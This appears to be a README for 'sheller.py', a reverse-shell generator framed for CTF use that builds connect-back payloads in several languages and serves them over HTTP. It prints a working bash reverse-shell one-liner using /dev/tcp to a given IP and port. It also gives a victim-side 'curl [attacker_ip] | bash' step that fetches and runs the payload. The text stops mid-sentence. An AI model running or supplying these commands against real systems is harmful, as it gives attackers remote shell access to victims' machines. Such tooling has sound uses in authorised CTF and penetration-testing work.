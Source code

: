 # C3 - The CTF Command and Control

This is a VERY simple script that can be used to create your basic reverse-shell commands.

All of this commands can be found online, and several people like [PentestMonkey](https://github.com/pentestmonkey) have made collections of them already. This is another collection, that can be used to insert the local IP and PORT easily.


```
usage: sheller.py [-h] [-l SHELL] [-a LOCALADDR] [-p LOCALPORT] [-o OUTFILE]
                  [-s] [-i INTERFACE] [--httpport HTTPPORT]

A script to generate reverse shells on various languages and serve them on
http-server.

optional arguments:
  -h, --help           show this help message and exit
  -l SHELL             Language to identify the shell to be built. Use -s to
                       see available shells.
  -a LOCALADDR         Address to connect back to
  -p LOCALPORT         Port to connect back to
  -o OUTFILE           File to write the reverse shell to
  -s                   Print available shells
  -i INTERFACE         Interface name to get ip for reverse shell script
  --httpport HTTPPORT  Port to start HTTP server in, default 80
  ```
  
  ## Example:

  ```
  sudo python3 sheller.py -l bash -p 8080 --httpserver -i eth4
  ```

  produces:

  ```
  bash -i >& /dev/tcp/169.254.138.91/8080 0>&1
  ```

  and serves it on http-server at all interfaces on port 80 at / http://localhost
  
  on victim machine:
  ```
  curl [attacker_ip] | bash
  ```

  should run the reverse shell with generated
